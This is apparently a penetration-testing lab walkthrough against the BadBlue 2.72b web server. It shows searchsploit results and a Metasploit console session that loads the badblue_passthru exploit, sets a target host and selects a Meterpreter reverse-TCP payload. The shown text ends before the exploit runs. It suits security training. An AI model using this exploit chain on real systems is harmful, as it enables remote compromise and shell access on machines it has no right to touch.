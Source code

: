 ```
BadBlue 2.72b - Multiple Vulnerabilities                                                                                                             | exploits/windows/remote/4715.txt
BadBlue 2.72b - PassThru Buffer Overflow (Metasploit)                                                                                                | exploits/windows/remote/16806.rb
Working Resources BadBlue 1.2.7 - Denial of Service                                                                                                  | exploits/windows/dos/20641.txt
Working Resources BadBlue 1.2.7 - Full Path Disclosure                                                                                               | exploits/windows/remote/20640.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result

```

[SEARCHING FOR CONTENT](https://www.offensive-security.com/metasploit-unleashed/searching-content/)

[Working with Payloads](https://docs.rapid7.com/metasploit/working-with-payloads/)

```
msf5 > use exploit/windows/http/badblue_passthru
msf5 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf5 exploit(windows/http/badblue_passthru) > set rhosts 10.0.28.107
rhosts => 10.0.28.107
msf5 exploit(windows/http/badblue_passthru) > ip a
[*] exec: ip a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
32886: eth0@if32887: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:15 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.21/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
32888: eth1@if32889: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:0a:15:08 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.10.21.8/24 brd 10.10.21.255 scope global eth1
       valid_lft forever preferred_lft forever
msf5 exploit(windows/http/badblue_passthru) > set payload windows/meterpreter/reverse_tcp
```
